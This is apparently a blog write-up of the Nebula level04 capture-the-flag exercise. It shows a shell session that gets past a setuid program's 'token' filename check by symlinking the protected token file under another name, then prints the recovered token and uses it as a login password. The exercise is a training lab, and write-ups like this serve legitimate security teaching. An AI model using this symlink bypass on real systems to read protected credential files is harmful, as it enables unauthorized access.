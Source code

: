 ```yaml
---
layout: post
title: "Bypassed restriction"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 04](http://exploit-exercises.com/nebula/level04) Agenda**: "This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)"

<center>
	<img src="/images/2015-02-22-bypassed_restriction/reference.jpg">
</center>

<br />

After code review we can note that [strstr](http://www.tutorialspoint.com/c_standard_library/c_function_strstr.htm) makes check that filename which one we passed as input doesn't contain substring "*token*" or as result you'll get "*EXIT_FAILURE*" [status](http://www.gnu.org/software/libc/manual/html_node/Exit-Status.html). 

{% highlight sh linenos %}
level04@nebula:~$ cd /home/flag04
level04@nebula:/home/flag04$ ls -la
total 13
drwxr-x--- 2 flag04 level04   93 2011-11-20 21:52 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag04 flag04   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag04 flag04  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw-r--r-- 1 flag04 flag04   675 2011-05-18 02:54 .profile
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token

level04@nebula:/home/flag04$ mkdir /tmp/level04
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/level04/flag
level04@nebula:/home/flag04$ ./flag04 /tmp/level04/flag

06508b5e-8909-4f38-b630-fdb148a848a2
{% endhighlight %}

 And finally, we can use the hash at line 16 as a passphrase for "*flag04*" user. After obtaining the access you should know what to do =)